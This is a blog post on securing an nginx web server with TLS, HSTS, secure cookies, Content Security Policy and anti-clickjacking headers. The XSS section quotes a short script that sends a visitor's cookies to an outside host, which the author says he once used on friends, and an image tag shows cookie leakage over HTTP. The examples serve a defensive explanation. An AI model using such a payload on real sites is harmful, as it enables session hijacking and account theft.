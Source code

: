 {"title": "Deploy SSL or die"}

*Update: [Let's Encrypt](https://letsencrypt.org/) offers free of charge TLS certificates.*

Few excuses remain not to deploy SSL on your HTTP server. Especially if
your server receives sensitive data over the internet.

For a few dollars a year you can tell your customers you care about 
security. Tell them to look for the padlock.

I acquired an SSL certificate from [StartSSL](https://www.startssl.com/) and
installed it on this blog. StartSSL is the only trusted CA which offers free SSL
certificates. **It's only free for non-commercial usage.** I don't really 
need SSL here, but hey it's free and I want to learn how to setup nginx with SSL.

Here is a minimal config for nginx;

    server {
        listen       8081;
        server_name jekyll.local;
        root /home/dag/projects/my-awesome-site/_site;
        ssl                  on;
        ssl_certificate      /home/dag/vikan-tls/certs/ca-chain.cert.pem;
        ssl_certificate_key  /home/dag/vikan-tls/private/jekyll.key.pem;
    }

[konklone](https://konklone.com/post/switch-to-https-now-for-free)
has a nice step-by-step guide for getting a certificate and setting it up.
Read mozilla's [TLS wiki](https://wiki.mozilla.org/Security/Server_Side_TLS)
for recommended server configuration.

## Tame the browser

![](/blogimages/blackhole01.jpg)

The browser is like a giant black hole that sucks in all code it can get. And
executes it. It is a very nice platform for distributing viruses. It must me 
constrained and tamed. 

Do not only put login form over SSL. Eavesdroppers can sniff session
cookies. In the past, facebook put only login
form over SSL by default. A tool called [Firesheep](https://en.wikipedia.org/wiki/Firesheep)
exploited this. An active attacker can inject content into
non-SSL elements. A nasty example is changing form action url to non SSL.
Or javascript code which grabs the password on form submission.

Consider instructing browsers to disallow HTTP
requests. This can be done with the [HSTS](https://www.chromium.org/hsts/) header:

    # go to SSL version next time please
    add_header Strict-Transport-Security "max-age=15768000;";

The HSTS header tells your browser to not allow HTTP without SSL. Check out 
the [SSL stripping attack](http://www.thoughtcrime.org/software/sslstrip/)
for details. It is 
[deadly](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).
The HSTS header does not prevent SSL stripping if the browser is seeing the 
header for the first time.

Requests towards port 80 should toss back a redirect to https. 

If you are going to use cookies then set the secure flag to prevent them
from leaking from HTTPS over to HTTP. Older clients do not have HSTS.
This is for them.

Here is an example which leaks the session cookie on facebook.

    <img src="http://www.facebook.com/LEAK-COOKIES-PLEASE">

Turns out facebook has neither HSTS or secure cookies. They do default
to SSL though.


## XSS shall not pass!

Back in the day when I was stealing cookies from my friends I would 
instruct their browser to do this;

    <script>new Image().src='http://dvikan.no/?c='+document.cookie</script>

[Content Security Policy](https://developer.mozilla.org/en-US/docs/Security/CSP/Introducing_Content_Security_Policy)
can prevent these kinds of data extraction. It is not first line of defense 
but defense indepth. Here is an example that instructs browser to only 
allow image references to itself;

    Content-Security-Policy: img-src 'self'

It is pretty clever.

## Clickjacking pepperspray

Clickjacking is when you click an element and the click is highjacked. Actually
you clicked an iframe with a facebook like button for Justin Bieber's fan page.

There is an HTTP header for disallowing a website to be inside an iframe. 
This is how you do it:

    add_header X-Frame-Options DENY;

## OCSP Stapling

For faster TLS handshakes, piggyback the OCSP response onto server reply.
This does not reduce security because the OCSP response is signed anyway.

    resolver 8.8.8.8;
    ssl_stapling on;

## Forward secrecy

Keeps historic traffic data safe. A future compromise of the private key
will not enable decryption of traffic data.

## Dessert

SSL is old. It is from 1995. We should migrate over to the modern term TLS.

This TLS business is all fun and games until you realize that

> Cryptography is typically bypassed, not penetrated. -- Adi Shamir

Remember that users will pick `hunter2` as their password if they
are allowed.

Also remember that the visited domain name is plaintext for an eavesdropper.
It is sent in both the actual certificate and via SNI.

